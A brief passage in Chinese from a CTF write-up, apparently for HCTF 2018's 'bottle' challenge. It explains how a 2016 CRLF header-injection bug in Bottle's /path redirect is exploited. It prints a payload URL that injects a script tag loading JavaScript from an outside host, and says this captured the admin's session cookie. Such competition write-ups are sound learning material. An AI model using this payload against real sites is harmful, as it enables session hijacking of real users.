 

# bottle

只有几个简单的登录注册，提交url功能。看了wp才知道bottle是个python框架，主要漏洞来自于

https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html

一个2016年的cve漏洞，并且题目也提示了是用的firefox box，在302跳转的`/path`页面中存在一个`CRLF`http头截断

漏洞重点都在p神的文章中提到了，只要将跳转的url小于80即可

```
http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:22/%0d%0a%0d%0a<script%20src=//script.kingkk.com/1.js></script>
```

这样提交之后，就可以收到admin的session了，换上session之后，就可以看到flag

![](hctf2018-web-writeup\12.png)















# 最后

由于是陆陆续续做的一些题，做完这些之后比赛就差不多快结束了，后面的题也就是瞟了一眼，有空还是会复现下的。感谢vidar-team一次体验极棒的比赛。





